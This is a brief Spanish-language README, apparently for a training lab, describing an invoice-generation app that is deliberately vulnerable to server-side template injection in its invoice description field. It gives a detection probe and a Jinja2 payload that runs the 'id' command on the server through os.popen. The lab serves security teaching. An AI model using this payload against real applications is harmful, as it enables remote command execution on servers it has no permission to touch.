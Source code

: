 ## 🚨 Server Side Template Injection (SSTI-Lab)
- Aplicación vulnerable a inyección de plantillas en el lado del servidor.
- Se trata de una aplicación de generación de facturas en la que existe un campo vulnerable a inyección. 

El campo vulnerable a inyección es el de la descripción de la factura. Con un input como este podriamos descubrir la vulnerabilidad:

```sh
{{7*7}}
```

Con este otro input podemos ejecutar comandos en el servidor:
```sh
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```